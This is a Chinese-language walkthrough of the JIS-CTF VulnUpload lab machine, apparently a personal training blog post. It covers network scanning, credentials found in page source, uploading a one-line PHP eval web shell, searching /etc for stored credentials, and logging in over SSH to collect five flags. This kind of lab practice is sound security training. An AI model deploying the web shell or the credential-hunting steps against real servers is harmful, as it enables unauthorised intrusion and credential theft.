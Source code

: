 # Jordaninfosec-CTF01

## 一、描述

```text
VM名称：JIS-CTF：VulnUpload

难度：初学者

说明：本机上有五个标志。尝试找到它们。查找所有标志平均需要1.5个小时。

仅与VirtualBox一起使用

下载链接：https : //download.vulnhub.com/jisctf/JIS-CTF-VulnUpload-CTF01.ova
```

## 二、问题解决

环境一开始有问题，提示如下

![image-20210308103929620](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308103929620.png)

经审查应该是USB设备未找到，以及先前的网卡未找到

### 解决方案

1.先将网卡设置为本机自带的正在联网的网卡

![image-20210308103744711](C:%5CUsers%5Cyuhao%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20210308103744711.png)

2.随后将USB设备禁用

![image-20210308103816812](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308103816812.png)

即可正常打开虚拟机

## 三、开始训练

扫描本机网段，首先，查看本机IP

```text
ifconfig
```

![image-20210308113913196](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308113913196.png)

nmap扫描子网

```text
nmap 192.168.1.238/24
```

![image-20210308114052962](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308114052962.png)

发现有个IP开了80端口，尝试打开

![image-20210308114133792](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308114133792.png)

成功找到靶机IP

```text
192.168.1.236
```

使用nmap扫描此IP详细信息

```text
nmap -A 192.168.1.236
```

![image-20210308114320597](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308114320597.png)

发先robots.txt文件，并且其中有/flag

访问网页

![image-20210308114423280](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308114423280.png)

得到第一个flag

```text
The 1st flag is : {8734509128730458630012095}
```

将robots.txt中的网站访问一遍后，发现[http://192.168.1.236:80/admin\_area/页面显示如下](http://192.168.1.236:80/admin_area/页面显示如下)

![image-20210308114836865](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308114836865.png)

使用F12查看网页源代码

![image-20210308114915573](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308114915573.png)

发现用户名、密码以及第二个Flag

```text
username : admin
password : 3v1l_H@ck3r
The 2nd flag is : {7412574125871236547895214}
```

使用所得账户信息登陆网页

![image-20210308115201977](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308115201977.png)

显示如下

![image-20210308115234925](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308115234925.png)

判断为文件上传

编写一句话木马，命名为config.php

```text
<?php eval($_POST["giao"]);?>
```

尝试上传

![image-20210308115502795](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308115502795.png)

上传成功

联想到之前的robots.txt中的目录uploaded\_files

直接访问

```text
http://192.168.1.236/uploaded_files/config.php
```

访问成功

![image-20210308115944645](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308115944645.png)

使用蚁剑连接，填写URL和连接密码后，测试连接

![image-20210308120045605](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308120045605.png)

连接成功，成功进入后台

![image-20210308120338901](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308120338901.png)

在html目录下找到flag.txt，但是无法读取，需要root

之后在hint.txt文件中找到第三个flag

![image-20210308120523673](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308120523673.png)

```text
The 3rd flag is : {7645110034526579012345670}
```

以及一句提示

```text
try to find user technawi password to read the flag.txt file, you can find it in a hidden file ;)
```

让我找到

```text
technawi
```

这个用户的密码，并且提示在隐藏文件夹中

搜寻这个用户名

```text
grep -rns technawi /etc/
```

![image-20210308122605837](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308122605837.png)

发现一个txt文件中，含有username的字样

打开文件

```text
cat /etc/mysql/conf.d/credentials.txt
```

![image-20210308122651388](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308122651388.png)

得到第四个flag，以及用户名密码

```text
The 4th flag is : {7845658974123568974185412}
username : technawi
password : 3vilH@ksor
```

使用SSH连接，这里我们使用CRT

![image-20210308122843973](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308122843973.png)

连接成功

![image-20210308122857798](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308122857798.png)

找到flag.txt并打开

![image-20210308122944491](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210308122944491.png)

得到最后一个flag

```text
The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....
```

靶机训练完成


